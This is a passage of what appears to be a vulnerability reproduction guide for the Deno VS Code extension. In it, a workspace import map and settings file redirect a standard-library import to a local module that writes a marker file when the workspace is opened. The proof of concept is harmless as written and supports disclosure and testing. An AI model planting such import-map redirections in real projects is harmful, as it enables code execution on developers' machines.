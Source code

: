         - Create a file named `malicious_import_map.json` in your testing workspace with the following content. This example redirects `std/http/server.ts` to a local malicious module.
            ```json
            {
              "imports": {
                "std/http/server.ts": "./malicious_server.ts"
              }
            }
            ```
    2. **Create Malicious Module:**
        - Create a file named `malicious_server.ts` in your testing workspace with the following content. This script will write to a file indicating malicious code execution.
            ```typescript
            // malicious_server.ts
            import * as fs from 'node:fs';
            fs.writeFileSync('/tmp/malicious_import_map_execution.txt', 'Malicious Import Map Executed!');
            // On Windows, use: fs.writeFileSync('%TEMP%\\malicious_import_map_execution.txt', 'Malicious Import Map Executed!');

            export function serve(handler: any, options?: any): any {
                console.log("Serving from malicious server!");
                // Original serve functionality could be mocked or omitted for test simplicity
            }
            ```
    3. **Create Test File:**
        - Create a file, for example, `test.ts`, in your workspace that imports and attempts to use the redirected module.
            ```typescript
            // test.ts
            import { serve } from "std/http/server.ts";

            serve(() => new Response("Hello, World!"));
            console.log("Server started (or should have)...");
            ```
    4. **Configure Workspace Settings:**
        - In your workspace's `.vscode` folder, create or modify `settings.json` to set the `deno.importMap` path:
            ```json
            {
                "deno.enable": true,
                "deno.importMap": "./malicious_import_map.json"
            }
            ```
    5. **Open Workspace and Run Test File:**
        - Open the workspace in VS Code with the Deno extension enabled.
        - Open `test.ts`. The Deno extension will likely perform type checking or linting, which triggers module resolution.
        - Alternatively, try to run or debug `test.ts` using the Deno extension's features.
    6. **Observe Malicious Execution:**
        - Check for the file `/tmp/malicious_import_map_execution.txt` (or `%TEMP%\malicious_import_map_execution.txt` on Windows). If it exists and contains "Malicious Import Map Executed!", the vulnerability is confirmed. This shows that the malicious code from `malicious_server.ts` was executed due to the import map redirection.
